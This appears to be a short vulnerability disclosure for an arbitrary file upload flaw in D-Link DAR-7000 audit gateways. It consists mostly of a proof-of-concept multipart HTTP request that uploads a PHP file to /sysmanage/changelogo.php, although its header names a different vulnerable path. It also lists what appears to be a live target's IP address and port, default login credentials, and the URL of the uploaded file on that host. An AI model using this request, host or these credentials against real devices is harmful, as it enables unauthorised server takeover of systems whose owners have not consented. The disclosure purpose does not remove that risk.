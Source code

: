 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000  DAR V31R02B1413C

Vulnerability Path ：/sysmanage/updateos.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc:
```
POST /sysmanage/changelogo.php HTTP/1.1
Host: 
Cookie: PHPSESSID=bdb1aa1392da0420192cff3c34e507d6
Accept: image/gif, image/jpeg, image/pjpeg, application/x-ms-application, application/xaml+xml, application/x-ms-xbap, */*
Accept-Language: zh-CN
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)
Content-Type: multipart/form-data; boundary=---------------------------7e62f02f51878
Accept-Encoding: gzip, deflate
Content-Length: 326
Cache-Control: no-cache
Connection: close

-----------------------------7e62f02f51878
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------7e62f02f51878
Content-Disposition: form-data; name="mode"

upload
-----------------------------7e62f02f51878--

```
<img width="729" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/75fd474e-b079-489b-8cb7-750e67d4d2e9">

https://60.22.74.195:8443/boot/web/upload/diylogo/phpinfo.php

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/7b4026d7-13b5-4ec9-99b0-a4ef450214d0">


